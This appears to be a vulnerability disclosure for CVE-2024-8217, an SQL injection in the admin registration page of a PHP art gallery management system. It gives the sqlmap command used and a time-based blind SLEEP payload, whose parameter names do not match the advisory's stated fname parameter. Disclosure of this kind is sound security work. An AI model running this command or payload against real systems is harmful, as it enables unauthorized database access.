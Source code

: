 # SQL Injection vulnerability was discovered in Sourcecodester Online Art Gallary Management System 1.0 (admin registration)

---
CVE-2024-8217
---
Affected Project: Sourcecodester Online Art Gallary Management System 1.0

Official Website: https://www.sourcecodester.com/php/14211/online-art-gallery-management-system-project-using-phpmysql.html

Version: 1.0

Related Code file: /Admin/registration.php

Injection parameter: fname


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The username field are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the /Admin/ By clicking on **Registration**, we can register for admin account.

`http://192.168.12.147/Admin/registration.php`

![image](https://github.com/gurudattch/CVEs/blob/main/assets/0.png)

--- 

We will first intercept the registration traffic using Burp Suite
![image1](https://github.com/gurudattch/CVEs/blob/main/assets/1.png)

 ---
 
Save the intercepted Registration request to a .txt file and execute sqlmap towards it. 

![image1](https://github.com/gurudattch/CVEs/blob/main/assets/2.png)


---

parameter fname is vulnerable to sql injection

Below commands verifies the vulnerability:

`$ sqlmap -r sqli_test.txt -p fname`

---

![image3](https://github.com/gurudattch/CVEs/blob/main/assets/3.png)

---

```
---
Parameter: fname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=asdafsd&price=123 AND (SELECT 1175 FROM (SELECT(SLEEP(5)))jrgF)&action=
---
```
